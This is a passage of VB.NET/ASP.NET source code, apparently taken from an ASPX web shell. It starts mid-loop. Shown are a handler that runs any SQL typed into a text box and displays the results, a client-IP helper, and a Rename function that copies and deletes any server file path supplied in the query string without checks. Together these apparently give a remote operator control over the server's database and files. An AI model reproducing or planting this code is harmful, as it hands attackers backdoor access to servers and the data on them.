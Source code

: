    				recResult.MoveNext 
   				Loop 
 	 		End if 
  			recResult = Nothing 
  			strResult = Replace(strResult," ","&nbsp;") 
  			strResult = Replace(strResult,"<","&lt;") 
  			strResult = Replace(strResult,">","&gt;") 
			lblresultSQL.Text=txtSqlCMD.Text & vbcrlf & "<pre>" & strResult & "</pre>"
			txtSqlCMD.Text=""
		 End if 
  		adoConn.Close 
	 End if
 End Sub

Function GetStartedTime(ms) 
	GetStartedTime=cint(ms/(1000*60*60))
End function
Function getIP() 
    Dim strIPAddr as string
    If Request.ServerVariables("HTTP_X_FORWARDED_FOR") = "" OR InStr(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), "unknown") > 0 Then
        strIPAddr = Request.ServerVariables("REMOTE_ADDR")
    ElseIf InStr(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), ",") > 0 Then
        strIPAddr = Mid(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), 1, InStr(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), ",")-1)
    ElseIf InStr(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), ";") > 0 Then
        strIPAddr = Mid(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), 1, InStr(Request.ServerVariables("HTTP_X_FORWARDED_FOR"), ";")-1)
    Else
        strIPAddr = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
    End If
    getIP = Trim(Mid(strIPAddr, 1, 30))
End Function
Function Getparentdir(nowdir)
	dim temp,k as integer
	temp=1
	k=0
	if len(nowdir)>4 then 
		nowdir=left(nowdir,len(nowdir)-1) 
	end if
	do while temp<>0
		k=temp+1
		temp=instr(temp,nowdir,"\")
		if temp =0 then
			exit do
		end if
		temp = temp+1
	loop
	if k<>2 then
		getparentdir=mid(nowdir,1,k-2)
	else
		getparentdir=nowdir
	end if
End function
Function Rename()
	url=request.QueryString("src")
	if file.exists(Getparentdir(url) & request.Form("name")) then
		rename=0   
	else
		file.copy(url,Getparentdir(url) & request.Form("name"))
		del(url)
		rename=1
	end if
End Function 